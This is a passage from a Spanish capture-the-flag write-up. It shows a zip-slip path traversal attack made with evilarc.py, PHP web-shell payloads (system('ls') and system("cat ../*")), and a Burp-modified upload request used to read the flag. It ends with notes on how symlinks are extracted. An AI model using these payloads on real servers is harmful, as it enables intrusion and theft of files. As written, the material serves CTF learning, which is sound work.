 ```bash
echo "<?php echo system('ls') ?>" > try.png
```
```bash
python evilarc.py try.png -p /uploads/ -o unix -f try.zip -d 0
```

Subimos el zip, lo mandamos al repeater con [burp](https://portswigger.net/burp) y nos queda esto:

![](media/jorgectf/7.png)

En la foto podemos ver los [magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) de los archivos __.zip__, seguido de la carpeta /uploads/ y del archivo try.png en el que introduciremos nuestro código malicios en php.

Lo subimos y visitamos /uploads/try.png

![](media/jorgectf/8.png)

Sabiendo esto, solo nos queda engañar al servidor para que se "trague" nuestro .php malicioso cambiando la request en burp. Tras un buen rato y bastantes intentos, llegamos a esta request final:

![](media/jorgectf/10.png)

`/uploads/code.php.php` -> Nuestro archivo, el cual vamos a visitar para que el siguiente código se ejecute en el lado del servidor.

`<img src="">` -> Al principio inyectamos esto porque pensábamos que solo teníamos inyección de HTML, pero al luego añadir código en php vimos que teníamos el control total del archivo y la ejecución del mismo.

`<?php echo system("cat ../*"); ?>` -> Con este código leemos todos los archivos de la carpeta superior, ya que no podíamos leer solo flag.php, y conseguimos la flag.

`?>` -> No me preguntéis por qué, pero sin este cierre no se ejecutaba el código.


#### Conclusión 

Agradecimientos a [BitUp](https://bitupalicante.com/), en especial a [Secu](https://twitter.com/secu_x11) por la organización y excelente soporte en el desarrollo del CTF, y a mis compañeros del Team Alcachofa!

[JorgeCTF](https://twitter.com/jorge_ctf)

## Notas
Los enlaces simbolicos no siempre pueden extraerse como tal y referenciar a un recurso relativo, si hacemos la extraccion con la función extractTo() de la libreria de ZipArchive de PHP no funcionará, pero en cambio utilizando el binario unzip si que lo descomprime respetando los enlaces simbolicos.

## Referencias
* https://linux.die.net/man/1/zip
* https://fwhibbit.es/symlink-hacking-shared-hosting
* https://www.php.net/manual/es/ziparchive.extractto.php
